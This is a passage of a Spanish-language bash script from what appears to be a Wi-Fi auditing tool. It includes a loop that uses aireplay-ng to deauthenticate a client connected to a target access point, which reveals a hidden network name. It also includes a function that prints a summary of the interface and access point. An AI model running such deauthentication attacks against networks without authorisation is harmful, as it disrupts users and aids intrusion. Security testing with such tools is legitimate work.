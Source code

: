 				if [ "$NOMBRE_AP" != "" ]
				then
					break
				fi
				SLEEP=`ps $PARAMETRO_PS | grep sleep | grep -v grep`
				if [ "$CLIENTE" != "" ] && [ "$SLEEP" = "" ] #SI HAY UN CLIENTE CONECTADO LO EXPULSAMOS PARA CONSEGUIR EL NOMBRE AL RECONECTARSE
				then
					xterm -bg white -fg green $FUENTE $CLIENTE_VENTANA -title "ATAQUE -0 [Expulsando al cliente del AP]" -e $AIREPLAY -0 1 -a $MAC_AP -c $CLIENTE $INTERFAZ_MONITOR
					CLIENTE=""
					sleep $ESPERA &
				fi
			fi
			AIRODUMP_FUNCIONANDO=`ps $PARAMETRO_PS | grep airodump | grep -v grep`
			if [ "$AIRODUMP_FUNCIONANDO" = "" ]
			then
				break
			fi
		done
	fi
	if [ "$NOMBRE_AP" != "" ] && [[ "$NOMBRE_AP" != '< Oculta >' ]]
	then
		echo -e $verdeC"Encontrado: $blanco\"$NOMBRE_AP\""
		echo -e $grisC
	fi
	killall airodump-ng aireplay-ng > /dev/null 2>&1
fi
}

#MUESTRA LOS DATOS CON LOS QUE SE VA A TRABAJAR
mostrar_datos_seleccionados()
{
if [ "$FABRICANTE_INTERFAZ" = "" ]
then
	FABRICANTE_INTERFAZ=`$FABRICANTE "$MAC_INTERFAZ"`
fi
MAC=`echo $MAC_AP | cut -c-7` #recortamos la MAC XX:XX:XX
FABRICANTE_AP=`$FABRICANTE "$MAC_AP"`
echo -e "$amarillo"
echo -e "R E S U M E N"
echo -e "═════════════"
echo
echo -e "  "$subrayar"INTERFAZ"$parpadeoOFF""$amarillo":"
echo -e "    Nombre..........: $INTERFAZ"
echo -e "    Modo monitor....: $INTERFAZ_MONITOR"
echo -e "    MAC.............: $MAC_INTERFAZ"
echo -e "    Fabricante......: $FABRICANTE_INTERFAZ"
echo
echo -e "  "$subrayar"PUNTO DE ACCESO"$parpadeoOFF""$amarillo":"
echo -e "    Nombre..........: $NOMBRE_AP"
echo -e "    MAC.............: $MAC_AP"
echo -e "    Canal...........: $CANAL"
echo -e "    Fabricante......: $FABRICANTE_AP"
echo -e "$grisC"
}
